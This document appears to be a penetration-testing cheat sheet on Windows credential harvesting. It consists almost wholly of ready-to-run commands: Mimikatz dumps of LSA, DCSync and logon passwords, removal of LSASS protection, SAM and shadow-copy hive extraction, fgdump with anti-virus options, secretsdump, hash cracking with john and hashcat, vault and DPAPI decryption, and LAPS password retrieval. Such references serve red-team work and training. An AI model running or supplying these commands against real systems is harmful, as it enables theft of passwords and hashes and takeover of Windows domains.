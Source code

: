 # Credentials harvesting

## Enumerate Users And Hashes

```
privilege::debug
token::elevate

lsadump::lsa /inject /name:<user>    //NTLM hash of user
lsadump::dcsync /user:krbtgt         //Hashes of specified user

sekurlsa::logonpasswords //NTLM and SHA1 hashes
sekurlsa::credman        //vault credentials
sekurlsa::ekeys /aes128
sekurlsa::ekeys /aes256

vault::cred    //vault credentials
vault::list    //credman plaintext passwords
```

if the logonpassword command returns an error `Handle on memory (0x00000005)` use the following commands in Mimikatz to disable LSASS protection

```
!+
!processprotect /process:lsass.exe /remove
```

## NTLM From Password

```
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## SAM

### Dumping

#### Manual

Administrative privileges are required to dump register keys

```
reg.exe save hklm\sam c:\dp\sam.save
reg.exe save hklm\system c:\dp\system.save
reg.exe save hklm\security c:\dp\security.save
```

Possible backups location

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

#### ShadowCopy Exploit

It is possible to retrieve and dump keys from old backup versions of the system saved with ShadowCopy. Once the backup version is exposed you can dump the SAM credentials and extract  DPAPI hashes. All the following operations require Admin privileges

Enumerate existing copies

```
vssadmin list shadows
```

Create a new shadowCopy archive

```
wmic shadowcopy call create Volume='C:\'
```

Create a link to the copy

<pre><code><strong>mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\&#x3C;shadow copy volume name>\
</strong></code></pre>

IF you're unable to navigate the link due to access permission errors It is still possible to extract files from the shadow copy

```
copy \\?\GLOBALROOT\Device\<shadow copy vol>\windows\system32\config\sam <dest>\sam
copy \\?\GLOBALROOT\Device\<shadow copy vol>\windows\system32\config\system <dest>\system
```

#### fgdump.exe

Runs locally, creates a file with the hashes.

```
fgdump.exe
fgdump.exe -t    #test for anti-virus presence
fgdump.exe -a    #don't try to disable anti-virus
fgdump.exe -r    #ignore existing dump files
```

#### Mimikatz

```
lsadump::sam                 //SAM database
lsadump::secrets             //SAM secrets
```

### Decryption

Impacket - secretsdump.py

<pre><code>secretsdump.py -sam &#x3C;sam file> -system &#x3C;system file> LOCAL
<strong>secretsdump.py -sam &#x3C;sam file> -system &#x3C;system file> -security &#x3C;sec file> LOCAL
</strong></code></pre>

Samdump or Pwdump

```
samdump2 system.save sam.save
pwdump SYSTEM SAM > <file>
```

After obtaining the hashes they can be cracked to obtain the passwords or used in Pass the Hash attacks. In order to obtain the passwords we need only the NT part of the hash. given an hash with the following structure `AAAA:BBBB` the actual string to bruteforce is the one to the right of the column

```
john -format=NT -wordlist=<wordlist> <hashfile>
hashcat -m 1000 -a 0 --force --show --username <hash> <wordlist> #rows follow the format <user>:<hash>
```

## Vault credentials dump

Enumerate credentials manager entries

```
vaultcmd /list
VaultCmd /listcreds:"<entry name>"
```

Dump credentials associated with the vault entry

```
$ClassHolder = [Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$VaultObj = new-object Windows.Security.Credentials.PasswordVault
$VaultObj.RetrieveAll() | foreach { $_.RetrievePassword(); $_ }
```

## DPAPI

Usual credential files position

```
%appdata%\Microsoft\Credentials\
%localappdata%\Microsoft\Credentials\
%appdata%\Microsoft\Protect\<usersid>\    //master key
```

Enumerate Credentials hashes. The parameter `guidMasterKey` reveals the hash of the master key

```
dpapi::cred /in:"<path to cred hash>" 
```

Retrieve the master key, decode it and store the key in cache. In order to decrypt the key we need to be operating under the same context (user, system) the key belongs to.&#x20;

```
dpapi::masterkey /in:"<Path to MasterKeyGUID>" 
dpapi::masterkey /in:"<Path to MasterKeyGUID>" /rpc
dpapi::cache
```

Decrypt other hashes with the master key

```
dpapi::cred /in:"<path to CredHash>"
```

## LAPS

Verify that LAPS is installed by searching for `admpwd.dll` usually in `C:\Program Files\LAPS\CSE`

Check available commands in PowerShell

```
Get-Command *AdmPwd*
```

Find groups allowed to interact with LAPS

```
Find-AdmPwdExtendedRights -Identity *
Find-AdmPwdExtendedRights -Identity <user>
```

Get users of the detected group

```
net groups "<group>"
```

Run the following command in the context of a user part of the  group allowed to interact with LAPS to dump the stored passwords. The target is the machine with LAPS enabled

```
Get-AdmPwdPassword -ComputerName <target>
```
